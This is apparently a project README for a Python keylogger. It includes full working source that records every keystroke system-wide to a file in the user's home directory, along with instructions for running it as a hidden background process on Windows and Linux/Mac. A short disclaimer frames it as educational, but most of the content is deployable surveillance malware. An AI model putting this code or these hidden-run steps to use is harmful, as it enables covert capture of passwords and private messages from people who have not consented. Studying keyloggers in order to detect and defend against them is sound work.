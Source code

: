 # Keylogger in Python

## Overview
This project is a simple keylogger built using Python and the `pynput` library. It captures keystrokes globally from any application and logs them into a file. The goal of this project is to understand how keyloggers work and how to defend against them.

⚠ **Disclaimer:** This project is for educational purposes only. Unauthorized use of keyloggers is illegal. Always obtain consent before running this software.

## Features
- Captures all keystrokes from anywhere on the system.
- Logs keystrokes to a text file.
- Ignores special keys like the **Windows key**.
- Runs in the background as a hidden process.

## Prerequisites
Ensure you have Python installed on your system. You can check by running:
```sh
python --version
```

## Installation
1. Clone this repository:
   ```sh
   git clone https://github.com/yourusername/keylogger-python.git
   cd keylogger-python
   ```

2. Install dependencies:
   ```sh
   pip install pynput
   ```

## Usage
### Running the Keylogger
Run the script as a background process:
```sh
python keylogger.py
```

#### Windows (Run Hidden)
```sh
pythonw keylogger.py
```

#### Linux/Mac (Run in Background)
```sh
nohup python3 keylogger.py & disown
```

### Stopping the Keylogger
#### Windows
1. Open **Task Manager** (`Ctrl + Shift + Esc`)
2. Find `python.exe` or `pythonw.exe`
3. **Right-click > End Task**

#### Linux/Mac
1. Run:
   ```sh
   ps aux | grep python
   ```
2. Find the **PID (process ID)** and kill it:
   ```sh
   kill -9 <PID>
   ```

## Where Are Keystrokes Saved?
- **Windows:** `C:\Users\<YourUsername>\keylog.txt`
- **Linux/Mac:** `~/keylog.txt`

## Code Explanation
```python
from pynput.keyboard import Listener, Key
import os

# File to save keystrokes
log_file = os.path.expanduser("~") + "/keylog.txt"

def on_press(key):
    try:
        if key in [Key.cmd, Key.cmd_l, Key.cmd_r]:
            return  # Ignore Windows key
        with open(log_file, "a") as f:
            if isinstance(key, Key):
                f.write(f"[{key.name}] ")
            else:
                f.write(f"{str(key).replace('\'', '')} ")
    except Exception as e:
        print(f"Error: {e}")

# Start listener globally
with Listener(on_press=on_press) as listener:
    listener.join()
```

## License
This project is licensed under the MIT License. See `LICENSE` for details.

## Contribution
Feel free to fork this project and submit pull requests. Suggestions are always welcome!

## Contact
For any inquiries, reach out at [your-email@example.com](mailto:your-email@example.com).


